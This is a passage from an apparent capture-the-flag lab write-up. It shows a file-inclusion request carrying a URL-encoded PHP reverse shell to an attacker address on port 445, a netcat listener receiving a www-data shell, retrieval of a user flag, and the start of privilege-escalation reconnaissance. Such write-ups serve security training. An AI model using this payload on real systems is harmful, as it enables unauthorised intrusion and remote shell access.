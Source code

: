 ```http
lang=/var/ftp/pub/shell.php&cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%39%32%2e%31%36%38%2e%34%39%2e%31%32%34%22%2c%34%34%35%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27txt
&password=lol
```

#### catch connect from target
```bash
nc -lvp 445
listening on [any] 445 ...
192.168.124.14: inverse host lookup failed: Unknown host
connect to [192.168.49.124] from (UNKNOWN) [192.168.124.14] 52638
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

## get first flag
```bash
nc -lvp 445
listening on [any] 445 ...
192.168.124.14: inverse host lookup failed: Unknown host
connect to [192.168.49.124] from (UNKNOWN) [192.168.124.14] 52638
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home/tom
$ cat local.txt
e******************************3
```
---

# post exploitation
## get root
### review `/home/tom` folder content
```bash
$ ls -lsah
total 104K
4.0K drwxr-xr-x 15 tom  tom  4.0K Jan 10 01:24 .
4.0K drwxr-xr-x  3 root root 4.0K Feb  8  2020 ..
4.0K -rw-------  1 tom  tom   684 Feb  8  2020 .ICEauthority
   0 -rw-r--r--  1 root root    0 Jul 16  2020 .bash_history
4.0K -rw-r--r--  1 tom  tom   220 Feb  8  2020 .bash_logout
4.0K -rw-r--r--  1 tom  tom  3.5K Feb  8  2020 .bashrc
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .cache
4.0K drwx------ 10 tom  tom  4.0K Feb  8  2020 .config
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .gnupg
4.0K drwx------  3 tom  tom  4.0K Feb  8  2020 .local
4.0K -rw-r--r--  1 tom  tom   807 Feb  8  2020 .profile
4.0K drwx------  2 tom  tom  4.0K Feb  8  2020 .ssh
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Desktop
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Documents
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Downloads
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Music
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Pictures
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Public
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Templates
4.0K drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Videos
4.0K -rw-r--r--  1 root root   33 Jan 10 01:24 local.txt
```